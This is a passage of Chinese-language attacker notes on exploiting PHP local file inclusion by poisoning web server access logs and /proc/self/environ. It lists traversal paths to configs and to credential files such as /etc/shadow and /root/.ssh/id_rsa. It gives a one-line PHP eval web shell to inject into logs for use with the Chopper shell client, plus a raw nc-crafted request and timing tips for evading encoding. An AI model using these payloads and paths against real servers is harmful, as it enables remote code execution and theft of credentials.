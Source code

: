 		}
		
		5.包含日志文件
		{
			1)简介
				比如Web服务器的访问日志文件，这是一种通用的技巧。因为几乎所有网站都会将用户的访问记录到访问日志中。
				因此，攻击者可以向Web日志中插入PHP代码，通过文件包含漏洞来执行包含在Web日志中的PHP代码。
				如果网站访问量大的话，日志文件可能会非常大，这时如果包含一个这么大的文件时，PHP进程可能会卡死。
				一般网站通常会每天生成一个新的日志文件，因此在凌晨时进行攻击相对来说容易成功。
			2)路径
				nginx配置文件路径：../../../../opt/nginx/config/nginx.conf
				nginx日志文件路径：../../../../opt/nginx/logs/access.log
				apache:file=../../../../../../../../../usr/local/apache2/conf/httpd.conf
				
				file=.htaccess
				file=../../../../../../../../../var/lib/locate.db
				file=../../../../../../../../../var/lib/mlocate/mlocate.db
				
				/root/.ssh/authorized_keys
				/root/.ssh/id_rsa
				/root/.ssh/id_rsa.keystore
				/root/.ssh/id_rsa.pub
				/root/.ssh/known_hosts
				/etc/shadow
				/root/.bash_history
				/root/.mysql_history
				/proc/self/fd/fd[0-9]* (文件标识符)
				/proc/mounts
				/proc/config.gz
				如果有phpinfo可以包含临时文件
				
			3)在http请求的连接中直接写入一句话:get /<?php eval($_POST['123']);?>，然后菜刀连接文件包含链接
			
			4）绕过short_open_tag=off,避免urldecode，如%20
			法一：一句话base64加密后再写入
			法二：
				如果没有返回响应而WEB服务器又接受了请求，那么请求的内容将原封不动的写入WEB日志，不会进行HTTP编码.
				我们想个办法一直与WEB服务器保持TCP连接，不让WEB服务器处理响应返回，然后再由客户端的我们中断这次TCP连接.
				只要在HTTP请求的数据包中去掉Connection HTTP标头值。利用NC伪造没有Connection HTTP标头的请求包：
					GET /index< >.php HTTP/1.1
					Accept: */*
					Accept-Language: zh-cn
					Accept-Encoding: gzip, deflate
					User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727)
					Host: 192.168.3.44
					你会发现WEB服务器一直不会返回响应，直到我们客户端断开这次连接，这个邪恶的空格便写入了WEB日志！*/
					
			
		}
		
		6.包含/proc/self/environ文件
		{
			通用的技巧。因为它根本不需要猜测被包含文件的路径，同时用户也能控制它的内容。常见的做法是向User-Agent中注入PHP代码来完成攻击。
			这个环境变量有访问web的session信息和包含user-agent的参数。user-agent在客户端是可以修改的。
			参考：
				《Shell via LFI – proc/self/environ method》
				http://hi.baidu.com/root_exp/blog/item/9c0571fc2d42664fd7887d7d.html
		}
		